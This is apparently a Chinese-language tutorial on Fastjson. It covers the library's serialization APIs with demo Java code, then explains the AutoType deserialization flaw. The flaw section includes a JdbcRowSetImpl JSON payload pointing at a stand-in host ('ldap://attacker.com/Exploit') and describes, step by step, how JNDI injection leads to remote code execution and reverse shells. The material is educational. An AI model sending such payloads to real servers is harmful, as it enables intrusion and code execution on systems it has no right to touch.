


# Fastjson漏洞汇总

文章推荐：

> https://mp.weixin.qq.com/s/t8sjv0Zg8_KMjuW4t-bE-w
>
> https://github.com/bit4woo/code2sec.com/blob/master/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0%E5%AE%9E%E8%B7%B5%E4%B8%83%EF%BC%9Afastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96PoC%E6%B1%87%E6%80%BB.md
>
> https://xz.aliyun.com/news/14309

## Fastjson介绍

fastjson 是阿里巴巴开发的一款高性能 JSON 处理器，主要用于 Java 语言中实现 JSON 数据与 Java 对象之间的序列化（Java 对象转 JSON）和反序列化（JSON 转 Java 对象），广泛应用于 Java 开发中的数据交换场景（如接口通信、数据存储等）。

## 主要功能与用法

### 序列化

**序列化**：将 Java 对象转为 JSON 字符串，常用方法：

- `JSON.toJSONString(Object obj)`：基础序列化，如 `JSON.toJSONString(user)` 将 User 对象转为 JSON。
- 支持格式化输出（`toJSONString(obj, SerializerFeature.PrettyFormat)`）、排除指定字段等高级功能。

### 反序列化

**反序列化**：将 JSON 字符串转为 Java 对象，常用方法：

- ### 1. `JSON.parseObject(String text, Class<T> clazz)`

- **功能**：将 JSON 字符串反序列化为指定类型的 Java 对象。

  - 参数说明：

    - `text`：待反序列化的 JSON 字符串。
    - `clazz`：目标 Java 类的 `Class` 对象，指定反序列化的类型。

  - 示例：

    - ```java
     // 定义实体类
      public class User {
       private String name;
       private int age;
       // 省略 getter、setter、构造方法
      }
       // JSON 字符串
      String json = "{\"name\":\"Alice\",\"age\":20}";
       // 反序列化为 User 对象
      User user = JSON.parseObject(json, User.class);


- ### 2. `JSON.parseObject(String text, TypeReference<T> type)`

  - **功能**：用于反序列化泛型类型（如 `List<User>`、`Map<String, Object>` 等），解决泛型擦除导致的类型信息丢失问题。

  - 参数说明：
    - `text`：待反序列化的 JSON 字符串。
    - `type`：通过 `TypeReference` 包装的泛型类型，保留泛型信息。

  - 示例：

    ```java
    // 反序列化为 List<User>
    String jsonList = "[{\"name\":\"Alice\",\"age\":20},{\"name\":\"Bob\",\"age\":22}]";
    List<User> userList = JSON.parseObject(jsonList, new TypeReference<List<User>>() {});
    
    // 反序列化为 Map<String, Object>
    Map<String, Object> map = JSON.parseObject(json, new TypeReference<Map<String, Object>>() {});

- ### 3. `JSON.parse(String text)`

  - **功能**：将 JSON 字符串反序列化为 `Object` 类型（默认根据 JSON 结构生成 `JSONObject` 或 `JSONArray`）。

  - **特点**：返回值为 `Object`，需根据实际类型强制转换，适用于不确定目标类型的场景。

  - 示例：

    ```java
    String json = "{\"name\":\"Alice\",\"age\":20}";
    JSONObject jsonObject = (JSONObject) JSON.parse(json); // 转换为 JSONObject
    String name = jsonObject.getString("name"); // 提取字段
    
    String jsonArray = "[1, 2, 3]";
    JSONArray array = (JSONArray) JSON.parse(jsonArray); // 转换为 JSONArray


- ### 4. `JSON.parseArray(String text, Class<T> clazz)`

  - **功能**：专门用于将 JSON 数组字符串反序列化为指定类型的 `List` 集合。

  - 参数说明：

    - `text`：JSON 数组字符串。
    - `clazz`：集合中元素的类型 `Class` 对象。

  - 示例：

    ```java
    String jsonList = "[{\"name\":\"Alice\",\"age\":20},{\"name\":\"Bob\",\"age\":22}]";
    List<User> userList = JSON.parseArray(jsonList, User.class);


### 反序列化的核心机制

fastjson 反序列化时，会根据 JSON 中的键值对，通过反射机制调用目标类的 setter 方法或构造方法，为对象的属性赋值。对于泛型类型，`TypeReference` 通过继承关系保留了泛型参数的类型信息，使 fastjson 能正确解析嵌套的泛型结构。

## 代码演示

### pom.xml

在`pom.xml`中添加fastjson的依赖

```xml
<dependency>
  <groupId>com.alibaba</groupId>
  <artifactId>fastjson</artifactId>
  <version>1.2.24</version>
</dependency>
```

### 创建User.java

```java
package com.example.fastjson.Fastjson1_2_24;

public class User {
    public int id;
    public  String name;
    private int age;
    public User(){
   System.out.println("无参构造");
    }
    public User(int id, String name, int age) {
   this.id = id;
   this.name = name;
   this.age = age;
   System.out.println("有参构造");
    }
    public int getId() {
   System.out.println("执行getId");
   return id;
    }
    public void setId(int id) {
   System.out.println("执行setId");
   this.id = id;
    }
    public String getName() {
   System.out.println("执行getName");
   return name;
    }
    public void setName(String name) {
   System.out.println("执行setName");
   this.name = name;
    }
    public int getAge() {
   System.out.println("执行getAge");
   return age;
    }
    public void setAge(int age) {
   System.out.println("执行setAge");
   this.age = age;
    }
    @Override
    public String toString() {
   System.out.println("执行toString");
   return "User{" +
 "id=" + id +
 ", name='" + name + '\'' +
 ", age=" + age +
 '}';
    }
    public  void readObject(){
   System.out.println("执行readObject");
    }

}
```

### 序列化与反序列化

演示序列化与反序列化。创建`Serialization.java`

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.TypeReference;
import com.alibaba.fastjson.JSONArray;
import com.alibaba.fastjson.JSONObject;

public class Serialization {
    public static void main(String[] args) {
   User user = new User(1, "张三", 20);
   
   // 序列化
   String text = JSON.toJSONString(user);
   System.out.println("序列化的结果");
   System.out.println(text);
   System.out.println("============================================");

   // 反序列化一: JSON.parse() - 解析为JSONObject类型或者JSONArray类型
   System.out.println("反序列化一: JSON.parse() - 解析为JSONObject类型或者JSONArray类型");
   Object parsedObj = JSON.parse(text);
   System.out.println("解析结果类型: " + parsedObj.getClass().getName());
   System.out.println("解析结果: " + parsedObj);
   System.out.println("============================================");
   
   // 反序列化二: JSON.parseObject("{...}") - JSON文本解析成JSONObject类型
   System.out.println("反序列化二: JSON.parseObject(\"{...}\") - JSON文本解析成JSONObject类型");
   JSONObject jsonObject = JSON.parseObject(text);
   System.out.println("解析结果类型: " + jsonObject.getClass().getName());
   System.out.println("解析结果: " + jsonObject);
   System.out.println("============================================");
   
   // 反序列化三: JSON.parseObject("{...}", VO.class) - JSON文本解析成VO.class类
   System.out.println("反序列化三: JSON.parseObject(\"{...}\", VO.class) - JSON文本解析成VO.class类");
   User user1 = JSON.parseObject(text, User.class);
   System.out.println("解析结果类型: " + user1.getClass().getName());
   System.out.println("解析结果: " + user1);
   System.out.println("============================================");
   
   // 额外演示：使用@type进行反序列化（漏洞相关）
   System.out.println("额外演示：使用@type进行反序列化");
   String textWithType = "{\"@type\":\"com.example.fastjson.Fastjson1_2_24.User\",\"id\":2,\"name\":\"李四\",\"age\":25}";
   Object objWithTypeInfo = JSON.parse(textWithType);
   System.out.println("使用@type解析结果类型: " + objWithTypeInfo.getClass().getName());
   System.out.println("使用@type解析结果: " + objWithTypeInfo);
   System.out.println("============================================");
    }
}
```

### 运行结果：

```
有参构造
执行getAge
执行getId
执行getName
序列化的结果
{"age":20,"id":1,"name":"张三"}
============================================
反序列化一: JSON.parse() - 解析为JSONObject类型或者JSONArray类型
解析结果类型: com.alibaba.fastjson.JSONObject
解析结果: {"name":"张三","id":1,"age":20}
============================================
反序列化二: JSON.parseObject("{...}") - JSON文本解析成JSONObject类型
解析结果类型: com.alibaba.fastjson.JSONObject
解析结果: {"name":"张三","id":1,"age":20}
============================================
反序列化三: JSON.parseObject("{...}", VO.class) - JSON文本解析成VO.class类
无参构造
执行setAge
执行setId
执行setName
解析结果类型: com.example.fastjson.Fastjson1_2_24.User
执行toString
解析结果: User{id=1, name='张三', age=20}
============================================
额外演示：使用@type进行反序列化
无参构造
执行setId
执行setName
执行setAge
使用@type解析结果类型: com.example.fastjson.Fastjson1_2_24.User
执行toString
使用@type解析结果: User{id=2, name='李四', age=25}
============================================
```

### 解释：

==反序列化一: JSON.parse()
这个方法只是将JSON字符串解析为基本的JSON对象结构（JSONObject或JSONArray）
它不会创建具体的业务对象实例，而是保持JSON的原始结构
因此不需要调用任何自定义类的getter/setter方法
返回的是Fastjson内部的JSONObject或JSONArray对象
反序列化二: JSON.parseObject("{...}")
这个方法同样只是将JSON字符串解析为JSONObject对象
它不会将数据映射到具体的业务类（如User类）
JSONObject本质上是一个键值对的集合，类似于Map结构
所以也不涉及对具体业务类的getter/setter调用
只有在反序列化三: JSON.parseObject("{...}", VO.class) 中才会调用getter和setter方法，因为：
指定了目标类型为具体的业务类（User.class）
Fastjson需要创建该类的实例
需要通过setter方法将JSON中的值设置到对象属性中
在序列化时也会通过getter方法获取对象属性值
在漏洞利用场景中，@type机制使得即使在前两种反序列化方式中，如果JSON字符串包含@type字段，Fastjson也会根据该类型创建具体对象实例，这时就会调用对应类的setter方法，这也是Fastjson反序列化漏洞的核心机制。==

## 漏洞原理

Fastjson 反序列化漏洞的核心原理在于其 **AutoType 功能的设计缺陷**，该功能允许在解析 JSON 数据时，根据指定的 `@type`字段动态加载并实例化任意类。攻击者通过精心构造恶意 JSON 数据，利用此特性触发远程代码执行（RCE）。



### 🔍 关键环节解析

1. **AutoType 的初衷与缺陷**：Fastjson 引入 `@type`属性本是为了支持多态反序列化，即在反序列化时能准确地恢复原始数据类型。然而，在早期版本（如 ≤1.2.24）中，此功能缺乏严格的限制，使得攻击者可以通过该字段指定目标服务器类路径中存在的**任何类**（包括一些已知的危险类），Fastjson 都会无条件地去实例化它，并自动调用其相关的 setter 或 getter 方法。

2. **恶意类的指定与实例化**：攻击者会精心构造一个 JSON 对象，将其 `@type`的值设置为一个已知的、可利用的类。一个经典的例子是 `com.sun.rowset.JdbcRowSetImpl`，它是 Oracle JDK 中自带的一个类。

   ```
   {
     "@type": "com.sun.rowset.JdbcRowSetImpl",
     "dataSourceName": "ldap://attacker.com/Exploit",
     "autoCommit": true
   }
   ```

3. **危险方法的自动调用**：Fastjson 在实例化 `JdbcRowSetImpl`后，会根据 JSON 中的键值对，通过反射自动调用其对应的 setter 方法。这里会依次调用：

   - `setDataSourceName("ldap://attacker.com/Exploit")`：设置一个指向攻击者控制服务器的 JNDI 地址。
   - `setAutoCommit(true)`：**这是触发点**。在 `setAutoCommit(true)`的内部实现中，会调用 `connect()`方法以尝试建立数据库连接。

4. **JNDI 注入与 RCE**：在 `connect()`方法中，会执行 `this.getDataSource().getConnection()`。由于 `dataSourceName`已被设置为恶意地址，系统会进行 JNDI 查找（即 `InitialContext.lookup(attacker.com/Exploit)`）。如果目标服务器运行的 **JDK 版本较低（≤8u191）**，且相关安全限制未开启，它就会连接到攻击者架设的 LDAP 或 RMI 服务器，并加载服务器返回的恶意 Reference 对象，从而执行其中的恶意代码。

### ⚙️ 漏洞利用的环境依赖

成功利用此漏洞通常需要以下条件：

- **Fastjson 版本**：≤1.2.24 版本几乎无防护；1.2.25 至 1.2.80 版本虽引入了黑名单机制，但存在多种绕过手法。
- **JDK 版本**：JDK 版本需低于 8u191、7u201 或 6u211，这些版本之后默认关闭了 JNDI 远程类加载。
- **目标类路径**：需要存在可利用的类（如 `JdbcRowSetImpl`）。
- **网络连通性**：目标服务器需要能够访问攻击者控制的 LDAP/RMI 服务。

## Fastjson漏洞利用详解

来自文章（https://mp.weixin.qq.com/s/t8sjv0Zg8_KMjuW4t-bE-w）

1、攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。

2、存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，靶机服务器就会向rmi服务器请求待执行的命令。也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？

3、rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell啥的）

4、rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。

5、靶机服务器执行了恶意代码，被攻击者成功利用。




